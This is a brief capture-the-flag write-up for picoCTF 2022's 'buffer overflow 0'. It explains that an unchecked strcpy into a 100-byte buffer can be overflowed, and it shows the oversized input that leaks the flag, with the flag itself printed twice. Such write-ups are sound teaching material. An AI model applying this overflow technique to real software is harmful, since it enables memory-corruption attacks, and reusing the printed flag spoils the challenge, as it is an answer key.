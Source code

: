 # picoCTF 2022 - buffer overflow 0 (Binary Exploitation)

## Description 
Smash the stack
Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/521/vuln). You can view source [here](https://artifacts.picoctf.net/c/521/vuln.c). And connect with it using:

`nc saturn.picoctf.net 65355`

## Solution 
Upon inspection of the source file, we find that the `strcpy` used a 100-long buffer that can controlled by user. 
The first instinct is to enter a longer string and see if it will leak anything, and it works. 
```
Input: 111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}
```

## Flag
`picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}`